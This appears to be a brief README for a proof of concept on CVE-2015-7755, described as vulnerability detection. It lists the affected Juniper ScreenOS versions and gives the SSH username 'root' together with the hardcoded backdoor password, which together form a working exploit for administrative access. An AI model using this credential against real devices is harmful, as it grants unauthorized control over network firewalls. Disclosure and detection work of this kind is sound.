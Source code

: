 # CVE-2015-7755-POC
CVE-2015-7755 vulnerability detection</br>
using ssh to connect those vulnerable version: </br>
ScreenOS 6.2.0r15—6.2.0r18，6.3.0r12—6.3.0r20  (Juniper Networks)</br>
user: root </br>
passwd: <<< %s(un='%s') = %u </br>

